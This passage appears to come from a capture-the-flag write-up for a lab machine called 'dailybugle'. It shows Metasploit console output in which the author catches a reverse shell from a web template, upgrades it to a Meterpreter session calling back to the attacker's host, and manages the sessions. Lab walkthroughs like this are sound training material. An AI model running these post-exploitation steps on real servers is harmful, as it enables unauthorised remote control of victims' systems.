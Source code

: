 ```bash
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
```

I then saved the template and refreshed the index page which quickly resulted in a caught shell. Next I executed the post-exploit `shell_to_meterpreter` module.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (38288 bytes) to 10.10.162.223
[*] Meterpreter session 1 opened (10.10.182.144:4444 -> 10.10.162.223:36010) at 2020-11-27 22:16:22 +0000

msf5 post(multi/manage/shell_to_meterpreter) > run

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.182.144:4433 
[*] Sending stage (980808 bytes) to 10.10.162.223
[*] Meterpreter session 2 opened (10.10.182.144:4433 -> 10.10.162.223:55960) at 2020-11-27 22:16:36 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf5 post(multi/manage/shell_to_meterpreter) > sessions 

Active sessions
===============

  Id  Name  Type                   Information                                                              Connection
  --  ----  ----                   -----------                                                              ----------
  1         meterpreter php/linux  apache (48) @ dailybugle                                                 10.10.182.144:4444 -> 10.10.162.223:36010 (10.10.162.223)
  2         meterpreter x86/linux  no-user @ dailybugle (uid=48, gid=48, euid=48, egid=48) @ 10.10.162.223  10.10.182.144:4433 -> 10.10.162.223:55960 (10.10.162.223)

msf5 post(multi/manage/shell_to_meterpreter) > sessions 

Active sessions
===============

  Id  Name  Type                   Information                                                              Connection
  --  ----  ----                   -----------                                                              ----------
  1         meterpreter php/linux  apache (48) @ dailybugle                                                 10.10.182.144:4444 -> 10.10.162.223:36010 (10.10.162.223)
  2         meterpreter x86/linux  no-user @ dailybugle (uid=48, gid=48, euid=48, egid=48) @ 10.10.162.223  10.10.182.144:4433 -> 10.10.162.223:55960 (10.10.162.223)

msf5 post(multi/manage/shell_to_meterpreter) > sessions -k 1
[*] Killing the following session(s): 1
[*] Killing session 1
[*] 10.10.162.223 - Meterpreter session 1 closed.
```

